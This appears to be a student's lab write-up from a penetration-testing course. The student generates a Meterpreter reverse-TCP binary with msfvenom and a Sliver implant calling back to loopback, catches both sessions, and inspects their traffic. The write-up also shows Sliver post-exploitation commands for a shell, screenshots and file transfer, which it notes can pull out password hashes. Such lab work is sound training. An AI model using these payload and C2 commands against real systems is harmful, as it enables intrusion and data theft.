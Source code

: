 # A) Sniff venom
At first I made malicious binaries with msfvenom. I used the following command: `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o infected1`  
After the malicious binary was made, i opened multi/handler in msfconsole, and set the LHOST, LPORT and the payload to be the same as the attack payload.  
Then i started up the ran the malicious binary and got a connection to multi/handler.  
<img width="464" height="65" alt="image" src="https://github.com/user-attachments/assets/fccd63f0-f5d3-4776-8db7-04696f861dfe" />  
Now that the connection has been made, i opened wireshark and gave a few random commands in the meterpreter session to see what the traffic looks like  
<img width="824" height="105" alt="image" src="https://github.com/user-attachments/assets/7a9ef415-fd1e-430f-837f-40e5ca7c1726" />  
This was the traffic of a single `ls` command. Im not sure how to analyze this. Maybe this can be detected by unusual TCP port?  
# B) Hello, Sliver.  
I started out by downloading sliver: `sudo apt-get install sliver`  
After that I ran sliver: `sliver-server`  
Then I generated a malicious payload for linux and set the callback address as loopback: `generate --http 127.0.0.1 --os linux`  
<img width="277" height="103" alt="image" src="https://github.com/user-attachments/assets/483bbc19-c759-4844-a345-5eaad58b4d4b" />  
After that I started the http listener with the command `http`, and ran the payload.  
<img width="647" height="65" alt="image" src="https://github.com/user-attachments/assets/7a324193-565f-443d-b140-d736405a02a1" />  
To interact with the session, I used the command `sessions -i sessionID`  
<img width="191" height="35" alt="image" src="https://github.com/user-attachments/assets/2c87299f-ffa6-452c-99d6-053ceaee4c15" />  
I tried to analyze the traffic once again with wireshark, but I cannot pinpoint anything suspicious about the traffic, maybe once again a weird portnumber?
<img width="781" height="215" alt="image" src="https://github.com/user-attachments/assets/f66b706e-8c44-433f-8ba3-c1de2b771383" />  
# D) Changing connection properties.  
While the sessions was alive and I was interacting with it, I used the `help` command to see what kinds of operations I can do in this session.  
The first thing that popped from the list was the command `shell` that upgrades my session to get me shell.  
<img width="358" height="89" alt="image" src="https://github.com/user-attachments/assets/b623197d-ab52-429a-83ed-637d9476f2be" />  
Apparently, this is bad OpSec :D. But I press yes, i'm an adult and got the shell.  
After this, I tried to change the reconnection interval, which was currently set at 1 ms.  
<img width="299" height="188" alt="image" src="https://github.com/user-attachments/assets/9d8e69fe-1f37-4e7f-a8df-7486d955400e" />  
I tried this with this command: `reconfig -r 1s`, and it was succesful.  
<img width="284" height="180" alt="image" src="https://github.com/user-attachments/assets/c2d0d396-83b2-4188-a0da-b558acb22f69" />  
E) Demonstrating sliver functionalities.  
You can do all sorts of things in sliver. You can display these functionalities with the `help` command.  
For example, you can take a screenshot of the target computer with the `screenshot` command.  
<img width="378" height="50" alt="image" src="https://github.com/user-attachments/assets/dbb55f67-e4fb-4f3e-9474-c43b90f1cea9" />  
With `netstat` you can print out the target computers current connections, useful for lateral movement.  
<img width="377" height="95" alt="image" src="https://github.com/user-attachments/assets/b1d41559-459a-468e-ab96-6e1b0115ae7f" />  
And as demonstrated in a previous point, `shell` can be used to open up an interactive shell.  
`Upload` and `download` commands can be used to upload files from your computer to the target and vice versa, useful if you neet to extract password hashes or other useful data. Or to inject malware to target system.  

# Sources:  
https://terokarvinen.com/tunkeutumistestaus/  
https://github.com/BishopFox/sliver/wiki/Getting-Started/59ebe3b6ac70e944b1755f51aaad573baa29f1a0  













